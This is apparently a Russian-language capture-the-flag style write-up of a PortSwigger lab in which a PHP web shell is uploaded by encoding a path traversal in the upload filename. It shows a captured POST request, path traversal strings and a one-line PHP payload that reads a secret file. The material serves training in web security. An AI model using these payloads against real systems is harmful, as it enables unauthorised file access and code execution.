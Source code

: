 ```yaml
---
title: "Web shell upload via path traversal"
date: 2025-08-07
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/preventing-file-execution-in-user-accessible-directories/file-upload/lab-file-upload-web-shell-upload-via-path-traversal"
classes: wide
---
```


В данной лабе содержится **уязвимость в загрузке файлов**. Для ее прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать креды `wiener`:`peter`.

```
https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с кредами из задания:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/1.png){: height="200" .align-center}

Тут есть возможность загрузить картинку, воспользуюсь ей.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/2.png){: height="200" .align-center}

Открою картинку в отдельном окне.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/3.png){: height="200" .align-center}

Пришла идея, что я могу получить доступ к нужному файлу с помощью **Path Traversal** уязвимости. Попробую через `URL` получить файл:

```
../../../home/carlos/secret
../../../../home/carlos/secret
```

Ничего не получилось( Посмотрю в другом месте. Гляну `POST`-запрос к серверу:

```http
POST /my-account/avatar HTTP/2
Host: 0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Cookie: session=7E7K4PEvnIiGMnYLxrlYcBAoSNOt5YJJ
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary6640f312240f713049159f0d6197d925
Content-Length: 107749
Origin: https://0a07003d03613f59817b5c9400e9003a.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary6640f312240f713049159f0d6197d925
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Тут есть интересное поле `Content-Disposition: form-data;`. Это значит, что через поле `filename` я могу передать путь для сохранения моего файла. Проверю, могу ли я сохранить другой формат файла. Из контекста прошлых лаб попробую загрузить `PHP` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Файл успешно загрузился на сайт, но не выполнился. 

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/4.png){: height="200" .align-center}

Попробую изменить путь для сохранения файла на `../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/5.png){: height="200" .align-center}

Видно, что путь до файла не изменился. Закодирую его в `URL`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/6.png){: height="200" .align-center}

Получилось) Теперь я могу получить нужный файл. По пути `files/avatars/../exploit.php`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/7.png){: height="200" .align-center}

Сдам полученный токен для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_path_traversal/8.png){: height="200" .align-center}